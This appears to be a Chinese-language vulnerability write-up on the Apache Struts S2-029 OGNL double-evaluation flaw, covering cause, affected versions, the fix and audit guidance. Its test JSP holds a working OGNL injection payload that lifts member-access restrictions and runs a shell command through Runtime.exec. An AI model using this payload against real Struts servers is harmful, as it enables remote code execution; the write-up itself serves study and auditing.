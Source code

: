（CVE-2016-0785）S2-029
=======================

一、漏洞简介
------------

代码执行过程大致为先尝试获取value的值，如果value为空，那么就二次解释执行了name。并且在执行前给name加上了"%{}"。最终造成二次执行。因此需要的条件极为苛刻，特殊的代码，value值为空，可以传参到value，控制name，严格来说应该是个本地漏洞。

二、漏洞影响
------------

Struts 2.0.0 - Struts 2.3.24.1（2.3.20.3除外）

三、复现过程
------------

S2-029的公告说是可能的远程代码执行。而且依然是ognl导致的。

    The Apache Struts frameworks performs double evaluation of attributes values assigned to certain tags so it is possible to pass in a value that will be evaluated again when a tag’s attributes will be rendered.

目前网上已经有一些成熟的参考的资料了。详见文末参考资料。这次的漏洞虽然是代码执行。但是风险不高，需要开发者使用了特定的代码写法才会导致漏洞。需要直接将用户提交的数据通过标签设置成属性值。

比如：

    <s:i18n name="%&#123#request.lan&#125">xxxxx</s:i18n>
    <set var="%&#123#parameters.tang3&#125"/>

通过`%&#123#&#125`的方式获取用户输入放入标签属性，会导致代码执行。struts2的修复方式也是直接过滤了`%&#123&#125`形式的字符串的ognl解析。

1.png

    这段代码的修改用来处理掉了非%&#123开头，&#125结尾的字符串进行ognl解析的功能，这里我们来举个例子：bar%&#1232+3&#125，在修改之前的代码中2+3是会被作为ognl执行的。那么修改后，这种形式就只会被当做字符串来返回。

审计方式就是查看是否有`%&#123#&#125`这种方式获取用户输入变量复制给标签属性的代码写法。

测试代码：

    <%@page import="java.util.HashSet"%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <%@ taglib prefix="s" uri="/struts-tags" %>
    <html>
    <head><title>Demo jsp page</title></head>
    <body>
    <%
      request.setAttribute("lan", "'),#_memberAccess['allowPrivateAccess']=true,#_memberAccess['allowProtectedAccess']=true,#_memberAccess['allowPackageProtectedAccess']=true,#_memberAccess['allowStaticMethodAccess']=true,#_memberAccess['excludedPackageNamePatterns']=#_memberAccess['acceptProperties'],#_memberAccess['excludedClasses']=#_memberAccess['acceptProperties'],#a=@java.lang.Runtime@getRuntime(),#a.exec('touch /tmp/1111'),new java.lang.String('");
    %>
    <s:i18n name="%&#123#request.lan&#125">xxxxx</s:i18n>
    </body>
    </html>

2.png

查看tmp目录文件已经生成。

3.png
